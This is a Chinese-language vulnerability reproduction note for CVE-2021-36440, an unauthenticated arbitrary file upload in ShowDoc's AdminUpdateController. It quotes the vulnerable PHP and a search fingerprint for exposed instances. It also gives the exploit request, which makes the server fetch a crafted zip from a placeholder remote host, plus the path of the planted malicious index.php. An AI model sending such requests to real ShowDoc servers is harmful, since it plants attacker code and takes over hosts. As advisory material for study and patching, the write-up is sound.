

# ShowDoc AdminUpdateController.class.php 任意文件上传漏洞 CVE-2021-36440

## 漏洞描述

ShowDoc AdminUpdateController.class.php 文件中的更新部分代码没有鉴权且存在任意文件上传漏洞

## 漏洞影响

<a-checkbox checked>ShowDoc < V2.9.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ShowDoc"</a-checkbox></br>

## 漏洞复现

登录页面


文件路径`server/Application/Api/Controller/AdminUpdateController.class.php`



```php
public function download(){
        set_time_limit(1000);
        ini_set('memory_limit','500M');
        $new_version = I("new_version") ;
        $file_url = I("file_url") ;
        $version_num = str_replace("v","",$new_version) ;

        $showdoc_path = "../" ;

        // 进行文件读写权限检查
        if(!$this->new_is_writeable($showdoc_path)
            || !$this->new_is_writeable($showdoc_path."Sqlite/" )
            || !$this->new_is_writeable($showdoc_path."web/" )
            || !$this->new_is_writeable($showdoc_path."web/index.php" )
            || !$this->new_is_writeable($showdoc_path."server/" )
            || !$this->new_is_writeable($showdoc_path."server/vendor/autoload.php" )
            || !$this->new_is_writeable($showdoc_path."server/Application/Api" )
        ){
            $this->sendError(10101,'请手动给showdoc安装目录下的所有文件可写权限，否则程序无法覆盖旧文件');
            return ;
        }

        $temp_dir = sys_get_temp_dir()."/showdoc_update/";
        $zip_file = $temp_dir.'showdoc-'.$version_num.'.zip' ;
        mkdir($temp_dir) ;
        unlink($zip_file);
        $file = file_get_contents($file_url);
        file_put_contents($zip_file,$file);
        
        $zip = new \ZipArchive();
        $flag = $zip->open($zip_file);
        if($flag!==true){
            $this->sendError(10101,'下载更新压缩包失败');
            return ;
        }
        $zip->extractTo($temp_dir);
        $flag = $zip->close();
        
        $zip_file_subpath = $temp_dir.'showdoc-'.$version_num."/" ;
        
        if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
            //echo $zip_file_subpath.'存在';
            // 移动目录到upload/update
            $this->copydir($zip_file_subpath ,$showdoc_path.'Public/Uploads/update/' );
            $this->deldir($temp_dir);
            $this->sendResult(array());
        
        }else{
            $this->sendError(10101,'下载更新压缩包后，解压的文件缺失');
            return ;
        }
    }
```

这里可以看到 $file_url 参数可控，可在任意URl下载 zip文件，向后看看ZIP要求为需要存在部分文件

```php
if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
```

制作ZIP包, index.php 为恶意文件


发送请求包

```php
POST /server/index.php?s=/api/adminUpdate/download
  
file_url=http://xxx.xxx.xxx:8888/showdoc-2.zip&new_version=2
```


访问上传的文件页面 `Public/Uploads/update/web/index.php`